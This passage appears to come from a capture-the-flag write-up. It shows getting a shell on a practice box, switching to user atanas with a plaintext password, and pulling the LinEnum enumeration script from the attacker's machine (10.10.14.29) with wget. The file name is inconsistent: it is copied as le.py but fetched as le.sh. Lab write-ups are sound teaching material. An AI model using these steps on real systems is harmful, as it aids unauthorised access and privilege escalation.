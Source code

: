I was then able to create a full pty with python and su to user atanas with password f16tomcat!.

```
python -c 'import pty;pty.spawn("/bin/bash")'
su atanas
```

![image](assets/82758531-1e3a4c80-9db5-11ea-900e-f955129399ca.png)


## Steps (root/system)

I copied LinEnum.py to the target directory and started a python http server

```
cp ~/tools/LinEnum/LinEnum.py le.py
python3 -m http.server 80
```
Wget was used download LinEnum to the target box

```
wget http://10.10.14.29/le.sh
```

Running and reviewing the linenum results showed that I could read the contents of root's home folder. 

![image](assets/82758662-dff15d00-9db5-11ea-9025-d860ac45b328.png)
